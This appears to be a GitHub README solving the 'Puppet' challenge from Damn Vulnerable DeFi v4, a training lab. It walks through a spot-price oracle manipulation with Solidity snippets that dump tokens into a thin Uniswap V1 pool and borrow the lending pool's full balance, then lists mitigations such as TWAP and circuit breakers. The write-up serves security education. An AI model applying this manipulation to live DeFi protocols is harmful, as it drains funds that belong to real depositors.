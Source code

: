 # Puppet Challenge Solution

A security study and step-by-step exploit of the “Puppet” price-oracle vulnerability in Damn Vulnerable DeFi v4.  
Demonstrates how on-chain spot pricing without time-weighting can be manipulated in a single transaction to drain a lending pool.


## Background

This challenge features a lending pool requiring 2× ETH collateral per DVT borrowed.  
The pool uses a Uniswap V1 exchange as its price oracle, pulling the current spot price from the pool’s 10 ETH / 10 DVT liquidity.  
An attacker starting with 25 ETH and 1 000 DVT can crash the price and borrow the entire 100 000 DVT in one transaction.

---

## Challenge Setup

- **Lending Pool**:  
  - Holds 100 000 DVT  
  - Collateral formula: `2 × amount × spotPrice`  

- **Uniswap V1 Pool**:  
  - 10 ETH and 10 DVT  
  - Spot price = `getTokenToEthInputPrice`  

- **Attacker Wallet**:  
  - 25 ETH  
  - 1 000 DVT  

---

## Exploit Walkthrough

1. **Approve DVT**  
   The attacker approves the Uniswap V1 exchange to pull all 1 000 DVT.

2. **Dump DVT → ETH**  
   ```solidity
   uint256 tokens = token.balanceOf(player);
   token.approve(address(dex), tokens);
   dex.tokenToEthSwapInput(tokens, 1, block.timestamp);


This sale skews the pool ratio and crashes the spot price.

3. **Calculate Collateral**
```solidity
uint256 poolTokens = token.balanceOf(address(pool));
uint256 requiredEth = pool.calculateDepositRequired(poolTokens);
```
Collateral requirement becomes negligible.

4. **Borrow All DVT**
```solidity
pool.borrow{value: requiredEth}(poolTokens, recovery);
```
The entire 100 000 DVT is transferred to the recovery address, the attack is successful.

## Mitigation Strategies

- **Time-Weighted Average Price (TWAP)**
  - Integrate Uniswap V2/V3 TWAP over a 30-minute window.
  - In practice, dumping 1 000 DVT into a 10 ETH/10 DVT pool moves spot price by ≈ 90 %, but a 30-minute TWAP only shifts by ≈ 3 %.
  - Implementable via on-chain contracts or Chainlink TWAP adapters.

- **Multi-Source Price Aggregation**
  - Combine spot prices from multiple DEXs (Uniswap, SushiSwap) and a centralized oracle (Chainlink).
  - Use a medianizer contract to reject outliers, forcing an attacker to manipulate ≥ 3 venues simultaneously.

- **Borrow Caps & Rate Limits**
  - Enforce a per-transaction cap (e.g., max 1 000 DVT/tx) and a per-block cap (e.g., max 5 000 DVT/block).
  - In this setup, a 1 000 DVT cap would block a full drain, buying time for manual intervention and alerting.

- **Circuit Breakers on Volatility**
  - Pause borrowing when price moves exceed a 10 % threshold within a 1-minute interval.
  - Integrate on-chain monitoring to automatically halt lending if abrupt swings occur.

All these recommendations are practical to implement in existing DeFi protocols and critically reduce the attack surface for flash-loan and price-manipulation attacks.

## Conclusion

Working through the Puppet challenge reinforced a simple truth: any on-chain oracle that relies solely on spot rates and low liquidity can be weaponized. By building and running this exploit myself, I gained hands-on insight into:

- Crafting single-transaction attacks against spot-based oracles
- The importance of smoothing and multi-source aggregation in price feeds
- Designing operational guardrails (caps, circuit breakers) that balance security with liquidity

This case study serves as both a cautionary tale and a blueprint for hardening production DeFi systems against flash manipulation risks.







